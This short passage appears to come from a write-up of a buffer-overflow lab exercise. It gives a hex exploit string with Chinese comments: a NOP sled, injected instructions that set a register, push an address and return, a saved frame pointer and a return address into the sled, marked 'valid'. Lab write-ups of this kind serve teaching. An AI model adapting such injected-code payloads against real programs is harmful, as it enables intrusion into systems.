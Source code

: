 ```
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 
b8 ef 9a 4c 62 		//mov eax,0x624c9aef
68 3a 8e 04 08 		//push 0x08048e3a
c3 90 						//ret指令
c0 30 68 55				//ebp
00 30 68 55				//返回任意一个`\x90`

```

valid

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh8drrz68ij318s0di79a.jpg)